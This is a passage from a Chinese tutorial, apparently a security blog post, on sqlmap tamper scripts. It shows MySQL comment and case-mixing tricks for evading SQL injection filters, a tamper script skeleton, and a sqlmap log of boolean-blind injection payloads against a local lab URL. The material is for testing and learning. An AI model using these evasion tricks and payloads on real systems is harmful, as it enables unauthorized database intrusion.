 在MySQL语句中，我们可以通过`/*!UNION*/`或者`/**/UNION/**/` Agian or `UniOn`....都可以正常执行，前提是你必须了解各个数据库的特性。
就拿MySQL来说，它不区分大小写，那么我们传递的值有时候也可以通过大小写混淆的方式去绕过检测。

> 这些思路都是根据一个个基础知识通过构思、一个想法而产生的，然后再通过动手去实践想法，得出结论，最后产生“姿势”。 
> 你不缺乏想象力，你只是基础知识太弱。      - 倾旋

那么说了这么多，其实可以总结出：调用Tamper的条件就是必须能保证我们的SQL执行后与我们的期望结果相同。
意思也就是要满足数据库能够正常运行SQL(排除报错注入)。

## 0x02 Tamper简单结构概述

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2016 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW # 当前脚本调用优先等级

def dependencies(): # 声明当前脚本适用/不适用的范围，可以为空。
    pass

def tamper(payload, **kwargs): # 用于篡改Payload、以及请求头的主要函数
    return payload
```

今天主要来讲tamper这个函数，总共两个参数。

`payload`主要是传递过来的是每个检测SQL注入的Payload，建议读者先找一个注入点测试并添加上`-v 3`参数，查看Payload体验一下。

> SQL Injection:http://192.168.1.149/sqli/example1.php?name=root

部分日志：

```
[14:00:27] [PAYLOAD] 5444
[14:00:27] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:27] [INFO] confirming that GET parameter 'name' is dynamic
[14:00:27] [PAYLOAD] 6230
[14:00:27] [INFO] GET parameter 'name' is dynamic
[14:00:27] [PAYLOAD] root),)."")','
[14:00:27] [WARNING] heuristic (basic) test shows that GET parameter 'name' might not be injectable
[14:00:27] [PAYLOAD] root'jQBnEm<'">IXWAcV
[14:00:27] [INFO] testing for SQL injection on GET parameter 'name'
[14:00:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:00:28] [PAYLOAD] root) AND 1494=5040 AND (7286=7286
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:28] [PAYLOAD] root) AND 6033=6033 AND (6260=6260
[14:00:28] [PAYLOAD] root AND 9786=3346
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:28] [PAYLOAD] root AND 6033=6033
[14:00:28] [PAYLOAD] root') AND 7485=8545 AND ('IUCd'='IUCd
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.634
[14:00:28] [PAYLOAD] root') AND 6033=6033 AND ('qlLE'='qlLE
[14:00:28] [PAYLOAD] root' AND 5621=6946 AND 'OKld'='OKld
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:28] [PAYLOAD] root' AND 6033=6033 AND 'HFDv'='HFDv
[14:00:28] [PAYLOAD] root' AND 9642=7321 AND 'reXb'='reXb
```
我们此时站在自动化检测工具的角度去分析这个注入点
